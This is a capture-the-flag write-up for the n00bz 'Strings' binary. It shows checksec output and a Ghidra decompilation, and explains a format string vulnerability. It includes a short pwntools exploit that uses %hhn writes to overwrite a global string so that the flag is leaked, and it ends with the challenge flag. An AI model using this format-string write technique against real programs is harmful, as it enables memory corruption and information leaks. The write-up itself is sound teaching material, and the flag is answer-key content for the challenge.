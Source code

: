 # **Strings**
TL;DR 2 in 1 format string vulnerability

# Executable
Checksec :
```
[*] '/home/skuuk/n00bz/strings'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Ghidra decompilation :
```C
void main(EVP_PKEY_CTX *param_1)

{
  long in_FS_OFFSET;
  char local_78 [104];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  init(param_1);
  puts("Do you love strings? ");
  fgets(local_78,100,stdin);
  printf(local_78);
  main2();
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}

void main2(void)

{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_38 [40];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  __stream = fopen("flag.txt","r");
  fgets(local_38,0x28,__stream);
  printf(fake_flag);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

# Vulnerability
The vulnerability is a textbook format string, with no escaping of user input : 
```C
fgets(local_78,100,stdin);
printf(local_78);
```
There are many possibilities from there.

I decided to overwrite `fake_flag`, since it's in writeable memory and its address is known (no PIE), so as to print `local_38` which contains the actual flag.

This is achieved by overwriting bytes of `fake_flag` with a `%s` format specifier: as can be seen in gdb, when calling `printf(fake_flag)`, `rsi` holds the true flag !

# Exploit
```python
io = start()
io.sendline(b"%37c%9$hhn%78c%10$hhnPPP" + p64(0x404060) + p64(0x404061))
io.interactive()
```
Essentially we craft our payload to write a number of characters corresponding to `%`(37 in ascii) and to `s`(115=37+78 in ascii), and so that these counts are stored in fake_flag (which is at address `0x404060`)
- The buffer holding our input can be found on the stack. 
- It corresponds to the 6th (starting from 0) argument sent to printf (you can figure this out by experimenting with format specifiers or in gdb)
- `PPP` is used to align our payload
- The adresses at the end of the payload are arguments 9 and 10
- prefixing a format specifier by `X$`, where `X` is a number, allows to specify the `X`th argument is used by the current format specifier
- The `n` format specifier writes to the location pointed by the current argument the number of bytes printed until now by the current `printf` as an int (4 bytes)
- With `hhn`, we write the number of bytes printed until now by the current `printf` as a single byte
- `Xc` where `X` is a number, writes the current argument as a char, with padding so as to write `X` bytes.

# Resources
I looked at the following article as a refresher on format strings attacks:
https://ir0nstone.gitbook.io/notes/types/stack/format-string

For more info about format specifiers, look at the man page of printf :
```
$ man 3 printf
```


# Flag
```
n00bz{f0rm4t_5tr1ng5_4r3_th3_b3s7!!!!!}
```
